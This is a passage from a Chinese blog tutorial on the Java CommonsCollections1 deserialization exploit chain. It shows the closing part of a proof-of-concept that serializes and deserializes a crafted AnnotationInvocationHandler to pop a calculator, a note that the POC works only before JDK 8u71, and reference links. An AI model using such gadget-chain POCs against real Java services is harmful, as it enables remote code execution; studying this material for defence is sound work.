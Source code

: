 ```java
        Object o = cons.newInstance(Retention.class, proxyMap);
        byte[] bytes = serialize(o);
        unserialize(bytes);
    }
    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
}


```





一个细节上的问题就是产生了代理的`proxyMap`后，还需要再利用它来生成一个`AnnotationInvocationHandler`对象，因为要序列化和反序列化的是`AnnotationInvocationHandler`对象。

![image-20210814201642919]([Java反序列化]CommonsCollections1利用链学习(下).assets/image-20210814201642919.png)



完美的弹出了计算机！

实际上，经过构造后，只要调用了`AnnotationInvocationHandler`的`memberValues`(也就是我们的`proxyMap`)的任何方法，都会触发漏洞。

# 版本问题

同样的，该POC只适用于`8u71`之前。

# 总结

`Java`的反序列化终于快入门了！冲冲冲！！！

如果还没理解的话，可能还是动态代理那一块没弄懂，动态代理那一块的逻辑懂了，剩下的就很简单了。





# 参考链接

Java安全漫谈 - 11.反序列化篇(5).pdf

https://y4tacker.blog.csdn.net/article/details/117448761

https://blog.csdn.net/rfrder/article/details/119485265

https://paper.seebug.org/1242/#commons-collections

https://www.cnblogs.com/throwable/p/9747595.html